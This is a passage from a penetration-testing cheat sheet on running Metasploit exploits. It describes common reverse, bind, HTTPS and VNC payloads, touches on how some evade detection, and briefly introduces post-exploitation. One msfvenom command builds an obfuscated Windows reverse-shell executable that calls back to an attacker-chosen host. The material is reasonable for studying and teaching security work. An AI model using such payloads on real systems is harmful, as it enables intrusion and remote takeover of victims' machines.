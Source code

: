 3. Run show options cmd & ensure the needed inputs are filled out.
```sh
show options
```
- Note: you should still be inside the module of the exploit.

3. NOW run the exploit command, once the module details are filled out.
```sh
 exploit
```
If no errors appear you have sent a payload/exploit to the target computer


#### Types of payloads
The exploit will get you onto the system. But what do you do once you get in? Here are some popular payloads

#### Common Metasploit Payloads

- **Windows TCP Reverse Shell (`windows/meterpreter/reverse_tcp`)**
   - A reverse shell payload that initiates a connection from a Windows target back to the attacker. The attacker gains access to a Meterpreter session on the compromised system. It's beneficial for bypassing outbound firewall restrictions.

- **Linux TCP Reverse Shell (`linux/x86/meterpreter/reverse_tcp`)**
   - Similar to its Windows counterpart, this payload initiates a connection from a Linux target back to the attacker. It provides a Meterpreter session, granting various capabilities like file interaction, system command execution, and more.

- **Windows TCP Bind Shell (`windows/meterpreter/bind_tcp`)**
   - The payload sets up a listening service on the target Windows machine. The attacker then connects to this service to establish a Meterpreter session. It's direct but may be blocked by firewall restrictions on the target.

- **Windows HTTPS Meterpreter (`windows/x64/meterpreter/reverse_https`)**
   - A Meterpreter session that uses HTTPS for encrypted communication. This method is harder to detect and differentiate from regular web traffic by intrusion detection systems.

- **Windows Shell Reverse TCP (`windows/shell/reverse_tcp`)**
   - Unlike the Meterpreter payload, this provides a simple command shell (similar to `cmd.exe` on Windows) on the compromised system. It's less stealthy and versatile than Meterpreter but is lightweight and direct.

- **Windows VNC Inject (`windows/vncinject/reverse_tcp`)**
   - Injects a VNC server into the memory of the target Windows machine.
   - Establishes a reverse connection, allowing the attacker to view and interact with the victim's desktop in real-time.
   - Provides visual access without installing persistent software, reducing detection by file-based antivirus solutions.
   - While powerful for demonstrations and real-time monitoring, it can be quite visible to the victim due to the sudden appearance of a VNC session.

##### Creating Custom Payloads with msfvenom
See (Msf Venom)[#msf-venom] for more details

- Generate an obfuscated reverse TCP shell for Windows:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f exe -e x86/shikata_ga_nai -i 3 > output.exe

### Post-Exploitation
Post-exploitation's goals are pretty open ended. You can try to maintain persistence, pivot around the network, etc.
This document has a lot of ideas: <http://www.pentest-standard.org/index.php/Post_Exploitation#File.2FPrinter_Shares>

#### What is Meterpreter
  ```